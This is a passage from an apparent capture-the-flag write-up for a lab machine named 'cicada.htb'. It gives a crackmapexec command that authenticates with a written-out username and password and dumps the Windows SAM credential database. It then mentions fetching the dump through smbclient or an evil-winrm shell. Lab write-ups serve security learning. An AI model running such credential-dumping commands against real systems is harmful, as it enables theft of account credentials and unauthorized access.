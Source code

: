 ![](attachment/c8d3469c66416e2e25100a64545dbb13.png)
With crackmapexec we can dump the SAM database:
```shell
crackmapexec smb cicada.htb -u CICADA\\emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' --sam
```

Reconnect in smbclient to get the dump, or do it trough evil-winrm shell from C:\Temp folder:
![](attachment/3d74e3c68be67b7ca787d2d12f727770.png)